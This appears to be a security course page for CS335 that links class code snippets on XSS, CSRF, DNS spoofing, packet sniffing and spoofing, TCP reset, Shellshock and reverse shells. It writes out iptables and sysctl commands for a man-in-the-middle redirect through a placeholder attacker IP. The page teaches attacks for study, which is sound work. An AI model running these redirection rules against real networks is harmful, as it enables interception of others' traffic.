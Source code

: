 ```yaml
---
layout: default
course_number: CS335
title: Code
---
```


This page contains code snippets regularly used in class.

#### XSS
- [Add a friend](xss\add_friend.html)
- [Update Profile](xss\edit_profile.html)

#### CSRF
- [Template](csrf\post.html) for POST attacks

#### ARP
- Add firewall rule on the client
  - sudo iptables -t nat -A OUTPUT -p tcp --dport 8000 -j DNAT --to-destination _attacker_ip_address_
- Rules on the attacker
  - sudo sysctl -w net.ipv4.ip_forward=1
  - sudo iptables -t nat -A PREROUTING -p tcp --dport 8000 -j DNAT --to-destination _server_ip_address_
  - sudo iptables -t nat -A POSTROUTING -j MASQUERADE

#### DNS
- Add to `/etc/bind/`
  - [etc/bind/191.168.0](dns\191.168.0)
  - [etc/bind/cs335.com.db](dns\cs335.com.db)
- Append to `/etc/bind/named.conf`
  - [cs335zone](dns\cs335_zone.html)
- [dns_spoof.py](dns\dns_spoof.py)

#### TCP
- Client: [tcp_client.c](tcp\tcp_client.c)
- Server: [tcp_server.c](tcp\tcp_server.c) & [tcp_server_multi.c](tcp\tcp_server_multi.c)
- Sent RST packet: [rst_packet.py](tcp\rst_packet.py)

#### Packet Sniffing and Spoofing
- Sniffing
  - Packet Sniffing using raw sockets: [sniff_raw.c](sniff\sniff_raw.c)
  - Packet Sniffing using pcap API: [sniff_pcap.c](sniff\sniff_pcap.c)
  - Packet Sniffing using pcap API (ether): [sniff_ether.c](sniff\sniff_ether.c)
  - Send Raw Packets (method only): [spoof.c](sniff\spoof.c)
  - Sniff using Scapy: [sniff.py](sniff\sniff.py)
- Spoofing
  - Spoof ICMP using raw sockets: [spoof_icmp.c](sniff\spoof_icmp.c)
  - Spoof UDP using raw sockets: [spoof_udp.c](sniff\spoof_udp.c)
  - Spoof TCP using raw sockets: [spoof_tcp.c](sniff\spoof_tcp.c)
  - Spoof UDP using Scapy: [spoof_udp.py](sniff\spoof_udp.py)
  - Spoof ICMP using Scapy: [spoof_icmp.py](sniff\spoof_icmp.py)
- Misc
  - UDP client: [udp_client.c](sniff\udp_client.c)
  - UDP server: [udp_server.c](sniff\udp_server.c)
  - TCP/IP Header Structures: [ip.h](sniff\ip.h)
  - Calculating Checksum: [checksum.h](sniff\checksum.c)
- Sniffing along with Spoofing
  - Create packet using Scapy: [create_udp_packet.py](sniff\create_udp_packet.py)
  - Send created packet using raw sockets: [send_udp_packet.c](sniff\send_udp_packet.c)
  - Sniffing and the Spoofing ICMP using Scapy: [sniff_snoop_icmp.py](sniff\sniff_snoop_icmp.py)

#### Buffer Overflow
- Memory Layout: [mem_layout.cpp](buffer_overflow\mem_layout.cpp)

#### Shell Shock
- Attack on Set-UID: [vul.c](shell_shock\vul.c)
- Vulnerable Bash program: [variables.c](shell_shock\variables.c)
- Attack on CGI program: [test.cgi](shell_shock\test.cgi)

#### Reverse Shell
- File Descriptors: [fd.c](reverse_shell\fd.c)
- Redirection (demo): [red.c](reverse_shell\red.c)
- Redirection (dup): [dup.c](reverse_shell\dup.c)
- Redirection (dup2): [dup2.c](reverse_shell\dup2.c)
- Redirection (tcp): [tcp_out.c](reverse_shell\tcp_out.c)
- Redirection (tcp): [tcp_in.c](reverse_shell\tcp_in.c)
